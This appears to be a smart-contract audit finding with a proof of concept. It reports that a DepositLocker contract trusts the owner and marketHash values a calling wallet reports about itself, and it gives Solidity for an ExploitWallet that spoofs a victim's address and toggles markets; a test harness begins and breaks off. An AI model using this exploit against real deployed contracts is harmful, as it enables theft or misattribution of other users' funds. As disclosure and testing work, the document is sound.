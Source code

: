 The deposit and withdrawal logic relies on what a calling wallet reports about its `owner` address and targeted market (e.g., `marketHash`). Because there is no robust check, an attacker can deploy a wallet contract falsely claiming to belong to another user and then toggle which ledger entry is being modified. When this wallet calls the protocol’s functions, it updates records under the victim’s address, even though the victim never approved those actions.

```solidity
    function withdraw() external nonReentrant {
        // Get Weiroll Wallet's market hash and depositor/owner/AP
        WeirollWallet wallet = WeirollWallet(payable(msg.sender));
        bytes32 targetMarketHash = wallet.marketHash();
        address depositor = wallet.owner();
```

##### POC

```solidity
contract ExploitWallet {
    bool public withdrawPhase;

    address public immutable owner;

    bytes32 public immutable marketHashDai;
    bytes32 public immutable marketHashWETH;

    constructor(
        address _owner,
        bytes32 _marketHashDai,
        bytes32 _marketHashWETH
    ) {
        owner = _owner;
        marketHashDai = _marketHashDai;
        marketHashWETH = _marketHashWETH;
    }

    function marketHash() external view returns (bytes32) {
        return withdrawPhase ? marketHashDai : marketHashWETH;
    }

    function amount() external view returns (uint256) {
        return 1e18;
    }

    function enableFMarket() external {
        withdrawPhase = true;
    }

    function disableFMarket() external {
        withdrawPhase = false;
    }

    function deposit(DepositLocker _contract) external {
        _contract.deposit();
    }

    function withdraw(DepositLocker _contract) external {
        _contract.withdraw();
    }
}

contract DecimalMismatchExploit is RecipeMarketHubTestBase {
    DepositLocker public depositLocker;
    WeirollWalletHelper public walletHelper;

    address public attacker;
```